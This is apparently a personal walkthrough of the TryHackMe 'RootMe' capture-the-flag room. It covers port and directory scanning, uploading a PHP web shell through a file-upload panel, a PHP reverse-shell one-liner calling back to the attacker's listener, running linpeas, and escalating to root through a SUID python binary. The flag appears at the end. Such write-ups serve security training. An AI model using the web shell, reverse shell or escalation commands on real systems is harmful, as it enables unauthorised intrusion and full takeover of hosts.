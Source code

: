 # RootMe

IP: `10.10.99.182`

## NMAP
- 22 - OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
- 80 - Apache httpd 2.4.29

## Gobuster
`gobuster -u 10.10.99.182 -w /home/ryusei/Tools/basic_pen_tools/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py`

found:
`/index.php (Status: 200)`
`/uploads (Status: 301)`
`/css (Status: 301)`
`/js (Status: 301)`
`/panel (Status: 301)`

`panel` allows to upload files... probably found then in uploads

## Deploy php shell
create ``file.php5`
contetnt:
`<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
`

now call it from uploads ... you have exec
run: `php -r '$sock=fsockopen("10.9.6.33",1234);exec("sh <&3 >&3 2>&3");'`

and on your machine run `nc -lnvp 1234`

## Deploy shell
`python -c 'import pty; pty.spawn("/bin/bash")'`
upload linpeas
run `chmod +x linpeas.sh`
run `./linpeas.sh`

## Linpeas findings
several findings
(alternative to linpeas search: `find / -type f -user root -perm -4000 2>/dev/null`)

but we used python and python has SUID
`/usr/bin/python`

## Use Python for Priv. esc.
type: `python -c 'import os; os.execl("bin/bash", "sh", "-p")'`
OSError: [Errno 2] No such file or directory
sry `sh` is wrong `bash` is what we need
type: `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
try: `whoami` - get: `root`

goto root
find `root.txt` 
cat `root.txt` get: `THM{pr1v1l3g3_3sc4l4t10n}`
